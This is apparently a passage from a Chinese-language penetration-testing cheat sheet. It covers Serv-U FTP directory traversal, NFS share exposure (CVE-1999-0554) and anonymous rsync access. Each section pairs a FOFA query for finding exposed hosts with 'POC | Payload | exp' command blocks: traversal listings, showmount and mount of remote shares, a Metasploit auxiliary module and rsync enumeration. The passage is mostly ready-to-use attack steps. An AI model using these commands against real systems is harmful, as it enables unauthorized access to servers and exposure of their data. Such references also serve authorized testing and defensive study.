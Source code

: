 **Serv-U FTP Server 目录遍历漏洞**
- 相关文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- POC | Payload | exp
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

## NFS

> fofa : protocol="nfs"

**相关文章**
- [针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)

**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- POC | Payload | exp
    ```bash
    showmount -e <目标ip>
    mount -t nfs <目标ip>:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <目标ip>
    run
    ```

---

## Rsync

> fofa : app="rsync"

**未授权访问**
- 相关文章
    - [rsync的几则tips(渗透技巧)](http://www.91ri.org/11093.html)
    - [配置漏洞之Rsync匿名访问](https://uknowsec.cn/posts/skill/%E9%85%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E%E4%B9%8BRsync%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE.html)

- POC | Payload | exp
    ```bash
    apt install rsync -y
    rsync <目标IP>::
    ```
    - [rsync 未授权访问漏洞](https://github.com/vulhub/vulhub/tree/master/rsync/common)
